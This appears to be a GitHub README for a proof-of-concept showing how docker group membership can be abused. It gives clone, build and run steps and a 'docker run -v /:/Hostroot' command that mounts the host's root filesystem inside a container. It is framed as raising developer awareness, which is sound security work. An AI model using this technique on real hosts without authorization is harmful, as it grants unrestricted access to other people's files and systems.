# Docker Privilege Escalation
This project helps to evaluate how docker group access could be exploited to gain unrestricted file access to the host machine.

As per Docker, to use docker command either a user needs to be a sudo group member or should have access to docker group.
When a system trusts a user with sudo membership, it assumes the fact that the user has administrative privileges. However, the same notion is not been yet shared with most developers that the user within a docker group could access the unrestricted paths and files on the host machine from the container spawned by his privileges.

```
git clone https://github.com/jigerjain/Docker_Privesc.git
cd Docker_Privesc/
docker build -t application .
./exploit.sh

Running docker
You could access the root folder of the system machine under /Hostroot folder

```

## Command
docker build would create an image "application" from the configuration file "Dockerfile"

## Insight
exploit.sh file contains a docker command which would mount the path "/" to the folder "/Hostroot/" on the running container; -i flag would help to gain an interactive access to the spawned container.
```
docker run -v /:/Hostroot -it application
```

![Root_folder_access](https://user-images.githubusercontent.com/38969890/65789819-2d84cf80-e12c-11e9-9136-ff3d4873874e.png)



